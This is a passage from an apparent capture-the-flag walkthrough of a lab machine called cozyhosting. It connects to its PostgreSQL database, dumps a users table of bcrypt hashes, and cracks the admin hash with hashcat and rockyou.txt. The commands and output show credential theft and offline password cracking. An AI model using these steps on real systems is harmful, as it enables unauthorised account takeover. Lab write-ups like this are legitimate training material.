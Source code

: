 We found 4 databases, let's use `cozyhosting` with `\c` command:

```terminal
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# 
```

We run `\d` to list tables:

```terminal
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

`users` seems interesting, let's dump it with `select * from users;`

```terminal
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

We found two `bcrypt` hashes, let's try cracking them using `hashcat` with the mode `3200`

```terminal
λ hashcat -m 3200 admin.hash rockyou.txt
hashcat (v6.2.6) starting


Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 116 MB

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib...kVO8dm
Time.Started.....: Thu Dec 28 17:14:28 2023 (28 secs)
Time.Estimated...: Thu Dec 28 17:14:56 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      112 H/s (12.86ms) @ Accel:1 Loops:1 Thr:16 Vec:1
```